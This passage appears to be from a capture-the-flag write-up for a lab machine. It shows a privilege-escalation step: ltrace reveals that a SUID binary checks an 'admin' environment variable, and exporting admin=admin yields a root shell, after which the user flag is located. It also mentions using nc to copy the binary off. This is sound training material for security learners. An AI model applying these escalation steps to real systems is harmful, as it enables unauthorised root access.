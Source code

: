 ```
Not an Admin
```

```
www-data@blog:/var/www/wordpress$ ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```

Okay so. At this point I used nc to get the binary to my machine, and then, much later, realised that I went too complicated opening radare lol.

Here's what to do instead. Realise that `getenv("admin")` means that we need some environmental variable. So,

```
www-data@blog:/var/www/wordpress$ export admin=admin
export admin=admin
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
whoami
root
```

Very nice. Let's also get the user flag while we are at it XD

```
root@blog:/var/www/wordpress# find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

And we are done!
